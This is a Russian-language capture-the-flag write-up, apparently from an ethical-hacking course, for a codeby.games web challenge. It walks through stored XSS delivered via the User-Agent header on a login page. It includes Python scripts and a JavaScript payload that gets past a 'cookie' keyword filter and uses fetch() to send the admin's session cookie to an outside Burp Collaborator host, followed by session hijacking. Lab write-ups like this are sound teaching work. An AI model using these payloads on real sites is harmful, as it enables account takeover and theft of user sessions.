 # Врайт-ап задания "Запретный код" с платформы codeby.games

Подготовлен

![Untitled](content/Untitled.png)

Задание **“Запретный код”** имеет сложность “Сложный” и относится к категории Веб

---

Переходим по указанному адресу **(62.173.140.174:16035)** и видим страницу авторизации с возможностью создания аккаунта

![Untitled](%D0%92%D1%80%D0%B0%D0%B8%CC%86%D1%82-%D0%B0%D0%BF%20%D0%B7%D0%B0%D0%B4%D0%B0%D0%BD%D0%B8%D1%8F%20%D0%97%D0%B0%D0%BF%D1%80%D0%B5%D1%82%D0%BD%D1%8B%D0%B8%CC%86%20%D0%BA%D0%BE%D0%B4%20%D1%81%20%D0%BF%D0%BB%D0%B0%D1%82%D1%84%D0%BE%D1%80%D0%BC%D1%8B%20codeb%2004c8b88b448b4fafb2daeb2aee7bb552/Untitled%201.png)

После регистрации попадаем на страницу с логами входа. При регистрации аккаунта я сразу решил попробовать проэксплуатировать XSS уязвимость и в поле *Username* вставил тестовый скрипт `<script>alert(1)</alert>`
Страница после входа выглядит так:

![Untitled](%D0%92%D1%80%D0%B0%D0%B8%CC%86%D1%82-%D0%B0%D0%BF%20%D0%B7%D0%B0%D0%B4%D0%B0%D0%BD%D0%B8%D1%8F%20%D0%97%D0%B0%D0%BF%D1%80%D0%B5%D1%82%D0%BD%D1%8B%D0%B8%CC%86%20%D0%BA%D0%BE%D0%B4%20%D1%81%20%D0%BF%D0%BB%D0%B0%D1%82%D1%84%D0%BE%D1%80%D0%BC%D1%8B%20codeb%2004c8b88b448b4fafb2daeb2aee7bb552/Untitled%202.png)

---

Попробуем зайти в наш аккаунт с другого профиля в хром но с другим паролем, чтобы попытка входа отобразилась в логах

![Untitled](%D0%92%D1%80%D0%B0%D0%B8%CC%86%D1%82-%D0%B0%D0%BF%20%D0%B7%D0%B0%D0%B4%D0%B0%D0%BD%D0%B8%D1%8F%20%D0%97%D0%B0%D0%BF%D1%80%D0%B5%D1%82%D0%BD%D1%8B%D0%B8%CC%86%20%D0%BA%D0%BE%D0%B4%20%D1%81%20%D0%BF%D0%BB%D0%B0%D1%82%D1%84%D0%BE%D1%80%D0%BC%D1%8B%20codeb%2004c8b88b448b4fafb2daeb2aee7bb552/Untitled%203.png)

![Untitled](%D0%92%D1%80%D0%B0%D0%B8%CC%86%D1%82-%D0%B0%D0%BF%20%D0%B7%D0%B0%D0%B4%D0%B0%D0%BD%D0%B8%D1%8F%20%D0%97%D0%B0%D0%BF%D1%80%D0%B5%D1%82%D0%BD%D1%8B%D0%B8%CC%86%20%D0%BA%D0%BE%D0%B4%20%D1%81%20%D0%BF%D0%BB%D0%B0%D1%82%D1%84%D0%BE%D1%80%D0%BC%D1%8B%20codeb%2004c8b88b448b4fafb2daeb2aee7bb552/Untitled%204.png)

Видим, что наш скрипт успешно отработал

---

Теперь же наша задача попасть в админ панель, посмотрим, из чего состоят cookie, чтобы мы могли по ним попасть к админу

![Untitled](%D0%92%D1%80%D0%B0%D0%B8%CC%86%D1%82-%D0%B0%D0%BF%20%D0%B7%D0%B0%D0%B4%D0%B0%D0%BD%D0%B8%D1%8F%20%D0%97%D0%B0%D0%BF%D1%80%D0%B5%D1%82%D0%BD%D1%8B%D0%B8%CC%86%20%D0%BA%D0%BE%D0%B4%20%D1%81%20%D0%BF%D0%BB%D0%B0%D1%82%D1%84%D0%BE%D1%80%D0%BC%D1%8B%20codeb%2004c8b88b448b4fafb2daeb2aee7bb552/Untitled%205.png)

---

Напишем простой скрипт на питоне с использованием библиотеки requests для того чтобы посмотреть возможность редактирования User agent. Это все нам надо чтобы в последствии когда мы допишем пейлоад мы могли в наш User agent запихнуть пейлоад на получения куков админа

```python
# Импорт библиотеки requests для работы с http запросами
import requests
# Сам пейлоад
payload = '<script>alert(document.cookie);</script>'

# Логин который будет использоваться при входе
user = "asdf"
# Часть из запроса включаящая User-agent которую мы изменяем на payload
headers = {'User-Agent': payload}
# Тоже часть запроса, передающая данные для входа
data = {"username":user, "password":"aboba"}

# Склеивание запроса вместе и отправка на сервер
response = requests.post('http://62.173.140.174:16035/login.php', headers=headers, data=data)

# Вывод статус кода и текста ответа
print(response.status_code)
print(response.text)
```

> Этот скрипт совершает попытку входа в наш аккаунт подставляя в User agent простой пейлоад
> 

Это будет работать примерно так:

- Мы изменяем наш User agent на пейлоад
- Мы знаем, что у админа логин - admin, используем это и будет входить с любым паролем, чтобы у админа он отобразился в логах
- Т.к. мы выяснили, что скрипт вставленный в User agent срабатывает автоматически, следоватаельно мы можем заменить простой пейлоад на пейлоад с получением куки из document.cookie
- Мы будем использовать **Collaborator** из burp suit pro ****для создания временного сервера для приятия наших отстуков

Т.к. на сайте присутствует защита от прямого получения cookie по фильтру на это слово используем возможности JavaScript для преобразования двух частей слово в одно

```jsx
<script>const vv = ["coo", "kie"].join("");alert(document[vv]);</script>
```

Итоговый пейлоад будет выглядеть так:

```python
import requests
# В данном коде все аналогично прошлому, но тут мы разделили слово cookie на два фрагмента и склеили их потом
payload = '<script>const vv = ["coo", "kie"].join(""); var payload = `https://{ссылка из burpsuit}/?${vv}=` + document[vv]; fetch(payload);</script>'
user = "admin"
headers = {'User-Agent': payload}
data = {"username": user, "password": "aboba"}
response = requests.post('http://62.173.140.174:16035/login.php', headers=headers, data=data)
print(response.status_code)
print(response.text)
```

Запускаем и ждем  ответа в бурпе

![Untitled](%D0%92%D1%80%D0%B0%D0%B8%CC%86%D1%82-%D0%B0%D0%BF%20%D0%B7%D0%B0%D0%B4%D0%B0%D0%BD%D0%B8%D1%8F%20%D0%97%D0%B0%D0%BF%D1%80%D0%B5%D1%82%D0%BD%D1%8B%D0%B8%CC%86%20%D0%BA%D0%BE%D0%B4%20%D1%81%20%D0%BF%D0%BB%D0%B0%D1%82%D1%84%D0%BE%D1%80%D0%BC%D1%8B%20codeb%2004c8b88b448b4fafb2daeb2aee7bb552/Untitled%206.png)

Тут нас интересует phpsessid, копируем его и подменяем через cookie editor 

![Untitled](%D0%92%D1%80%D0%B0%D0%B8%CC%86%D1%82-%D0%B0%D0%BF%20%D0%B7%D0%B0%D0%B4%D0%B0%D0%BD%D0%B8%D1%8F%20%D0%97%D0%B0%D0%BF%D1%80%D0%B5%D1%82%D0%BD%D1%8B%D0%B8%CC%86%20%D0%BA%D0%BE%D0%B4%20%D1%81%20%D0%BF%D0%BB%D0%B0%D1%82%D1%84%D0%BE%D1%80%D0%BC%D1%8B%20codeb%2004c8b88b448b4fafb2daeb2aee7bb552/Untitled%207.png)

И попадаем в админ панель с флагом в ней!

![Untitled](%D0%92%D1%80%D0%B0%D0%B8%CC%86%D1%82-%D0%B0%D0%BF%20%D0%B7%D0%B0%D0%B4%D0%B0%D0%BD%D0%B8%D1%8F%20%D0%97%D0%B0%D0%BF%D1%80%D0%B5%D1%82%D0%BD%D1%8B%D0%B8%CC%86%20%D0%BA%D0%BE%D0%B4%20%D1%81%20%D0%BF%D0%BB%D0%B0%D1%82%D1%84%D0%BE%D1%80%D0%BC%D1%8B%20codeb%2004c8b88b448b4fafb2daeb2aee7bb552/Untitled%208.png)

---

Написано [frechez](https://t.me/peeepaw) для курса "Этичный хакинг"
